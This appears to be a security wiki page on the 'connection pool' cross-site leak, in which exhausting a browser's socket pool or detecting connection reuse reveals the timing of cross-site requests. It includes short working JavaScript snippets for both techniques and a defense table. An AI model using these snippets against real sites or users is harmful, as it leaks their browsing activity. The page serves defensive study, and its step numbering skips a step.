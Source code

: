 +++
title = "Connection Pool"
description = ""
date = "2020-10-01"
category = "Attack"
abuse = [
    "Connection Pool",
    "Browser Limits",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
]
menu = "main"
+++

Another way to measure the network timing of a request consists of abusing the socket pool of a browser [^1]. Browsers use sockets to communicate with servers. As the operating system and the hardware it runs on have limited resources, browsers have to impose a limit.

To exploit the existence of this limit, attackers can:
1. Check what the limit of the browser is, for example 256 global sockets for TCP and 6000 global sockets for UDP. [^2][^7]
2. Block {{< katex>}}255{{< /katex >}} sockets for a long period of time by performing {{< katex>}}255{{< /katex >}} requests to different hosts that simply hang the connection
```javascript
for(let i=0; i<255; i++) fetch('https://'+i+'.example.com/', {mode: "no-cors", cache: "no-store"});
```
4. Use the {{< katex>}}256^{th}{{< /katex >}} socket by performing a request to the target page.
5. Perform a {{< katex>}}257^{th}{{< /katex >}} request to another host. Since all the sockets are being used (in steps 2 and 3), this request must wait until the pool receives an available socket. This waiting period provides the attacker with the network timing of the {{< katex>}}256^{th}{{< /katex >}} socket, which belongs to the target page. This works because the {{< katex>}}255{{< /katex >}} sockets in step 2 are still blocked, so if the pool received an available socket, it was caused by the release of the socket in step 3. The time to release the {{< katex>}}256^{th}{{< /katex >}} socket is directly connected with the time taken to complete the request.
```javascript
performance.clearResourceTimings();
await fetch(location.href, {cache: "no-store"});
await new Promise(r => setTimeout(r, 1000));
let data = performance.getEntries().pop();
let type = (data.connectStart === data.startTime) ? 'reused' : 'new';
console.log('Time spent: ' + data.duration + ' on ' + type + ' connection.');
```

## Connection reuse
With HTTP/1.1 (TCP) and HTTP/2 (TCP) and HTTP/3 (UDP) requests may reuse an existing connection for a host to improve performance. [^3][^4]
Since a reused connection is normally faster this could allow for detecting if a site has connected to a host excluding anything that’s been cached and leaking information about the cross-site request by abusing Stream prioritization and HPACK compression. [^5]
Connections may get closed if there left idle or the sockets are exhausted, for example 256 connections for HTTP/2 or 30 seconds idle for HTTP/3. [^2][^6]
This may also leak when the connection happened and the browser can have per connection limits and on how many connections are allowed per host, for example 6 connections per host. [^2]
```javascript
// Detect if a HTTP/3 request was made to a certain host in the last 20 seconds.
await new Promise(r => setTimeout(r, 10000));

// Check for connection reuse (ideally fetch a small resource or one with Timing-Allow-Origin: * header)
async function isConnected(url) {
    await fetch(url, {
        cache: "no-store",
        mode: 'no-cors'
    });
    await new Promise(r => setTimeout(r, 1000));
    let data = performance.getEntries().pop();
    if (data.transferSize > 0) {
        // Allowed to read timing infomation.
        // Same-origin or the Timing-Allow-Origin header.
        return (data.connectStart === data.startTime);
    } else {
        await fetch(url, {
            cache: "no-store",
            mode: 'no-cors'
        });
        await new Promise(r => setTimeout(r, 1000));
        let data2 = performance.getEntries().pop();
        // Check if the first request toke significantly longer.
        return (data.duration - data2.duration < 100);
    }
}

await isConnected('https://example.com/404');
```

## Defense

| [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) | [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}}) |
| :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :-------------------------------------------------------------------: |
|                                         ❌                                          |                          ❌                          |                                 ❌                                 |                                   ❌                                   |


{{< hint info >}}
Similar to [partitioned caches]({{< ref "../../defenses/secure-defaults/partitioned-cache.md" >}}), some browsers are considering to extend the principle of "split per site/origin" of resources to [socket pools](https://bugzilla.mozilla.org/show_bug.cgi?id=1572544).
{{< /hint >}}

## References

[^1]: Leak cross-window request timing by exhausting connection pool, [link](https://bugs.chromium.org/p/chromium/issues/detail?id=843157)
[^2]: client_socket_pool_manager.cc, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/socket/client_socket_pool_manager.cc)
[^3]: rfc9113 Connection Reuse, [link](https://httpwg.org/specs/rfc9113.html#rfc.section.9.1.1)
[^4]: rfc9114 Connection Reuse, [link](https://httpwg.org/specs/rfc9114.html#rfc.section.3.3)
[^5]: rfc9113 Remote Timing Attacks, [link](https://httpwg.org/specs/rfc9113.html#rfc.section.10.9)
[^6]: quic_context.h, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/quic/quic_context.h)
[^7]: features.cc, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/base/features.cc)
